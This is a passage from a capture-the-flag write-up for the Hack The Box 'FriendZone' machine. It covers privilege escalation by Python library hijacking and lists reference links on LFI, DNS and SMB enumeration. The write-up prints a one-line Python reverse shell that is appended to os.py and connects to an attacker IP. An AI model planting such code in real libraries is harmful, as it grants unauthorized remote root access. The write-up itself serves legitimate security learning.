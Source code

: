 ```
- [Privilege Escalation via Python Library Hijacking](https://rastating.github.io/privilege-escalation-via-python-library-hijacking/)
### Privilege Escalation

- So let's find the order of priority for python 
```
python -c 'import sys; print "\n".join(sys.path)'
```

![](./IMG/40.png)
- Then the next part, I need to add the reverse code to existing ```os.py``` 
- Noted, I have tried to create new ```os.py``` to replace the old one, but it will failed
- So append the following code to existing ``` os.py```
```
import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.17.145",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")
```
- Then wait for the nc listener to get reverse shell 

![](./IMG/41.png)
- root flag: ```2502788fea3a947aecd6adb4248e40aa```

![](./IMG/42.png)


## Question

- How to port forward internal to external 

## Reference 

- [(Discussion)friendzone](https://forum.hackthebox.com/t/friendzone-hackthebox/1316/112)
- [(Writeup)firendzone 1](https://ivanitlearning.wordpress.com/2020/11/20/hackthebox-friendzone/)
- [(Writeup)firendzone 2](https://infosecwriteups.com/hackthebox-friendzone-9c52df249dcd)
- [(Writeup - YouTube)firendzone 3](https://www.youtube.com/watch?v=Zf8p49IzEEA)

### LFI

- [(GITHUB)LFI payload](https://github.com/payloadbox/rfi-lfi-payload-list)
- [(HackTrick)LFI](https://book.hacktricks.xyz/pentesting-web/file-inclusion)

### DNS

- [(HackTrick)DNS](https://book.hacktricks.xyz/network-services-pentesting/pentesting-dns)
- [DNS - dig](https://docstore.mik.ua/orelly/networking_2ndEd/dns/ch12_09.htm)
- [(HackTrick)SMB](https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb)
- [(HackTrick)FTP](https://book.hacktricks.xyz/network-services-pentesting/pentesting-ftp)
- [(GITHUB)enum4linux-ng](https://github.com/cddmp/enum4linux-ng)
- [Linux smbclient command](https://www.computerhope.com/unix/smbclien.htm)
- [smbclient](https://wangchujiang.com/linux-command/c/smbclient.html)

### Python Library Hijacking

- [Python Library Hijacking on Linux (with examples)](https://medium.com/analytics-vidhya/python-library-hijacking-on-linux-with-examples-a31e6a9860c8)
- [Privilege Escalation via Python Library Hijacking](https://rastating.github.io/privilege-escalation-via-python-library-hijacking/)
- [Linux Privilege Escalation: Python Library Hijacking](https://www.hackingarticles.in/linux-privilege-escalation-python-library-hijacking/)

### Others

- [GTFObins](https://gtfobins.github.io/#exim4%20)
```